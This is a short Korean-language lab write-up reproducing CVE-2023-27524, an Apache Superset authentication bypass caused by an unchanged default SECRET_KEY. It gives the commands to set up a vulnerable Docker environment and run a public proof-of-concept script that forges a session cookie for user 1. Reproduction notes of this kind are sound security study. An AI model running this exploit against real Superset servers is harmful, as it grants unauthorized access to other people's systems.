 # CVE-2023-27524: Apache Superset 인증 우회


**Contributors**

-   [박건호(@ian9292)](https://github.com/ian9292)
-   [최민석(@catower917)](httpsL//github.com/catower917)

<br/>

### 요약

-   Apache Superset 버전 2.0.1 이하의 세션 유효성 검사 공격
-   SECRET_KEY를 변경하지 않은 설치를 통해 공격자가 승인되지 않은 리소스를 인증하고 액세스 할 수 있음

<br/>

### 환경 구성 및 실행

-   `https://github.com/horizon3ai/CVE-2023-27524` 다운로드
-   `docker-compose -f docker-compose-non-dev.yml pull`
-   `docker-compose -f docker-compose-non-dev.yml up`를 실행하여 테스트 환경을 실행함.
-   `http://your-ip:8088`에 접속하여 Superset 로그인 페이지가 나오는 지 확인
-   `python3 CVE-2023-27524.py -u http://your-ip:8088` 실행 후 반환 결과를 읽음. 결과에서 session cookie, Superset Version, Forged session cookie for user 1 확인
-   `python3 CVE-2023-27524.py -u http://10.0.220.200:8088 --validate` 실행 시 취약점 확인 가능
![](1.png)

<br/>


### 결과

![](2.png)

<br/>

### 정리

-   이 취약점은 Flask 웹 프레임워크 기반의 Apache Superset의 인증키 우회 취약점으로 설치 시 SECRET_KEY값이 기본값으로 설정되어 있어 발생함. 

### 참고
-   [CVE-2023-27524](https://www.horizon3.ai/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution)
- [CVE-2023-27524 Github](https://github.com/horizon3ai/CVE-2023-27524)
